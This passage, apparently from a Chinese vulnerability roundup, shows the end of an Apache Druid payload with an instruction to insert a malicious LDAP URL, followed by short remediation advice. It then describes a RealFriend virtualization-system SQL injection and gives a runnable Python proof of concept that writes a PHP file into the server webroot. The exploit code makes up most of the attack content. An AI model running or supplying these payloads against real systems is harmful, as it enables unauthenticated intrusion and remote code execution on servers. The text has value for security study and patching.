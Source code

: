     },  
    "dataSchema":{  
    "dataSource":"sample",  
    "timestampSpec":{  
    "column":"!!!_no_such_column_!!!",  
    "missingValue":"1970-01-01T00:00:00Z"  
    },  
    "dimensionsSpec":{  
      
    },  
    "granularitySpec":{  
    "rollup":false  
    }  
    },  
    "tuningConfig":{  
    "type":"kafka"  
    }  
    },  
    "samplerConfig":{  
    "numRows":500,  
    "timeoutMs":15000  
    }  
    }  
    

user.provider.url处填写你的恶意ldap服务url  
 **修复建议**

  1. 避免 Apache Druid 开放至公网。
  2. 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html

#  **12、瑞友天翼应用虚拟化系统远程代码执行漏洞**

瑞友天翼应用虚拟化系统是基于服务器计算架构的应用虚拟化平台，它将用户各种应用软件集中部署到瑞友天翼服务集群，客户端通过 WEB
即可访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等。未经身份认证的远程攻击者可以利用系统中存在的 SQL
注入漏洞，写入后门文件，从而执行远程代码。  
 **漏洞标签：** 服务器权限相关、利用链成熟、涉及重点系统  
 **漏洞编号：** 无  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.3.1

 **利用方法：**  
poc

    
    
    import requests  
    import sys  
      
    url = sys.argv[1]  
    payload="/AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C1.php%22+--+-&cmd=UserLogin"  
    repose = requests.get(url=url+payload)  
    if repose.status_code ==200:  
        a = url + '1.php'  
        b = requests.get(url=a)  
        if b.status_code == 200:  
            print('[+] 漏洞存在，验证地址: {}1.php '.format(url))  
    